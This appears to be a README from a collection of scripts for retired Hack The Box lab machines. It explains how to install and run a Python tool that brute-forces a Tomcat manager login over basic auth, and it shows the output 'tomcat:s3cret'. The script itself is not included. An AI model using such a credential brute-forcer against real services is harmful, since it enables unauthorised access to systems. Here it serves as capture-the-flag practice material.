 # Simple Brute Force of Tomcat Login via Basic Auth

## Build 

I demonstrate installing [requests](http://docs.python-requests.org/en/master/) here using [pipenv](https://pipenv.readthedocs.io/en/latest/).  If you're running this on Kali, you almost certainly already have requests installed and can skip ahead.

```
git clone https://gitlab.com/epi052/htb-scripts-for-retired-boxes.git
cd htb-scripts-for-retired-boxes/jerry
pipenv --three install requests 
```

## Execution

```
pipenv shell

python tomcat-login-brute.py
[+] Found credentials: tomcat:s3cret
```

